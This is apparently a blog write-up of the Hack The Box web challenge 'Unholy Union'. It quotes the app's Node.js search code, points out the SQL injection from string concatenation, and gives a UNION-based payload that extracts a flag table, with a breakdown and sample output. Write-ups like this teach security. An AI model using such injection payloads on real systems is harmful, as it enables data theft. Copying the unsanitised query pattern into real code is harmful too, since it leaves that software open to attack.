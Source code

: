 ```yaml
---
clayout: ctf
title: Unholy Union
date: 2024-12-11
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Unholy Union
      link: https://app.hackthebox.com/challenges/809
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/809
          thumbnail: /ctf/hack-the-box/challenges/web/unholy-union/pwned.png
---
```


## Challenge description

On the outskirts of a forsaken town lies an abandoned warehouse, rumored to store more than just forgotten relics.
Locals speak of an unholy union within its database, where spectral data intertwines with the realm of the living.
Whispers tell of a cursed ledger that merges forbidden entries through mysterious queries. Some say that the warehouse's
inventory system responds to those who know how to merge the right requests. Can you brave the haunted inventory system
and unravel the ghostly union of data before the spirits corrupt the world beyond?

## Challenge overview

In this challenge, we are presented with a web application that features an inventory search function. The application
provides a debug option to view the SQL queries executed on the server, which opens the door to potential exploitation.

![Unholy Union - Overview](/ctf/hack-the-box/challenges/web/unholy-union/overview.png)

## Code Review

### `entrypoint.sh`

The `entrypoint.sh` script is responsible for initializing the database. It creates a `flag` table and inserts the
content of the `/flag.txt` file into it.

```sql
DROP DATABASE IF EXISTS halloween_invetory;
CREATE DATABASE IF NOT EXISTS halloween_invetory;

USE halloween_invetory;

CREATE TABLE IF NOT EXISTS flag (
    flag VARCHAR(255) NOT NULL
);

INSERT INTO flag(flag) VALUES("$(cat /flag.txt)");
```

#### Key Observations:

- The `flag` table stores the flag as a single entry.
- The flag is loaded directly from the `/flag.txt` file.

### `index.js`

The `index.js` file contains the core application logic, including the vulnerable search functionality.

```javascript
app.get("/search", async (req, res) => {
    const query = req.query.query ? req.query.query : "";
    let results = { status: null, message: null };

    try {
        let sqlQuery;

        if (query === "") {
            sqlQuery = "SELECT * FROM inventory";
        } else {
            sqlQuery = `SELECT * FROM inventory WHERE name LIKE '%${query}%'`;
        }

        const [rows] = await pool.query(sqlQuery);
        console.log("Query results:", rows);
        results.status = "success";
        results.message = rows;
    } catch (err) {
        console.error("Error executing query:", err.stack);
        results.status = "failed";
        results.message = err.message;
    }

    return res.json(results);
});
```

#### Vulnerability:

- **SQL Injection**: The `query` parameter is directly concatenated into the SQL statement without sanitization or
  prepared statements, leaving it vulnerable to SQL injection attacks.

## Exploitation

To exploit the SQL injection vulnerability, we can use a **UNION-based SQL injection** technique to extract data from
the `flag` table.

### Step 1: Understanding the Query Structure

The vulnerable query:

```sql
SELECT * FROM inventory WHERE name LIKE '%<query>%';
```

By injecting a malicious payload, we can manipulate the SQL query to retrieve data from the `flag` table. The goal is to
combine the `inventory` query with a `UNION` statement to fetch the flag.

### Step 2: Crafting the Payload

The crafted payload:

```sql
Z' UNION SELECT 1, (SELECT flag FROM flag), 3, 4, 5; -- -
```

::: info Payload Breakdown:

1. **`Z'`**: Closes the `LIKE` clause.
2. **`UNION SELECT`**: Combines the results of the original query with our injected query.
3. **`1, (SELECT flag FROM flag), 3, 4, 5`**: Fetches the flag value alongside dummy values to match the number of
  columns in the original query.
4. **`-- -`**: Comments out the rest of the SQL query to prevent syntax errors.

:::

### Step 3: Sending the Exploit

When the payload is sent as the `query` parameter, the response reveals the flag:

```json
[
    {
        "id": 1,
        "name": "HTB{f4k3_fl4g_f0r_t35t1ng}",
        "description": "3",
        "origin": "4",
        "created_at": "5"
    }
]
```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

## References

- [SQLi Series - Reading Files through SQL Injection - 08](https://0xshin.hashnode.dev/sqli-series-reading-files-through-sql-injection-08)
